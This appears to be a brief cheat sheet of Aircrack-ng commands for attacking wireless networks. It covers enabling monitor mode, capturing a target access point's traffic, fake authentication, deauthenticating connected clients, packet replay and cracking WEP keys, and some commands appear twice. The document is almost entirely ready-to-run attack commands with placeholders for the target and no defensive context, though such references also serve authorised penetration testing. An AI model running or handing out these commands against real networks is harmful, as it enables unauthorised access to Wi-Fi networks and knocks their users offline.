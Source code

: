 ## Aircrack-ng Basics

Monitor Mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

Airodump Caputure of Traffic:

```text
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> mon0
```

Fake Authentication Attack on AP:

```text
aireplay-ng -1 0 -e <AP ESSID> -a <MAC Address of AP> -h <MON MAC Address> mon0
```

Deauthentication Attack against connected client:

```text
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> mon0
```

Crack WEP Key:

```text
aircrack-ng -0 <filename>
```

## Monitor Mode

Put interface in to monitor mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

Capture Data on Multiple Wireless Bands

```text
airodump-ng --band abg mon0
```

Airodump Caputure of Traffic:

```text
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> mon0
```

Fake Authentication Attack on AP:

```text
aireplay-ng -1 0 -e <AP ESSID> -a <MAC Address of AP> -h <MON MAC Address> mon0
```

Interactive Aireplay Attack:

```text
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 mon0
```
